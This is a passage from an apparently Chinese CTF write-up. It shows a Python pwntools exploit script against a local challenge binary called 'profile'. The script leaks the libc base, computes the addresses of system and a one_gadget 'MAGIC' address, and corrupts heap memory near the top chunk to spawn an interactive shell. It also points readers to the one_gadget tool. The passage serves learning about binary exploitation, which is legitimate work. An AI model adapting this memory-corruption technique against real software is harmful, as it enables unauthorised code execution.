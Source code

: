 ```

io = process('/home/h11p/hackme/huxiangbei/profile')

#debug()

#create profile
cr_up_profile('1','10','a'*8,'1'*12)

#leak libc base
libc_base=base_addr("0x"+binascii.b2a_hex(leak(printf_addr)),'min',0x49670) #0x49670

#get libc func addr
print "libc_base:"+hex(libc_base)
MAGIC_addr=libc_base+localMAGIC
print "MAGIC_addr:"+hex(MAGIC_addr)
environ_addr=libc_base+environ
print "environ_addr:"+hex(environ_addr)
head_addr=libc_base+head
print "head_addr:"+hex(head_addr)
main_arena_addr=libc_base+localmain_arena
print "main_arena_addr:"+hex(main_arena_addr)
topchunk=main_arena_addr+0x30
print "topchunk:"+hex(topchunk)
system_addr=libc_base+system
print "system_addr:"+hex(system_addr)
__malloc_hook_addr=libc_base+__malloc_hook
print "__malloc_hook_addr:"+hex(__malloc_hook_addr)


'''
libc_start_main=base_addr("0x"+binascii.b2a_hex(leak(environ_addr)),'min',0xa0)
print "libc_start_main:"+hex(libc_start_main)
head_addr_input=base_addr('0x'+binascii.b2a_hex(leak(head_addr+1))+'00','min',0x20fe8)
print "head_addr_input:"+hex(head_addr_input)
'''

#getshell
getshell(topchunk-0xc,0x0804B004-0x8,'a'*8+p32(MAGIC_addr))

io.interactive()
io.close()
```

效果是：  
![](https://ae01.alicdn.com/kf/HTB1ZGjTaNz1gK0jSZSgq6yvwpXa1.jpg)  

Ps:寻找MAGIC可以用one_gadget这个工具，工具地址在： [https://github.com/david942j/one_gadget](https://github.com/david942j/one_gadget)

![](https://ae01.alicdn.com/kf/HTB1WUjUaND1gK0jSZFyq6AiOVXaF.jpg)

# 评论区
**请文明评论，禁止广告**
<img src="https://cloud.panjunwen.com/alu/扇耳光.png" alt="扇耳光.png" class="vemoticon-img">  

---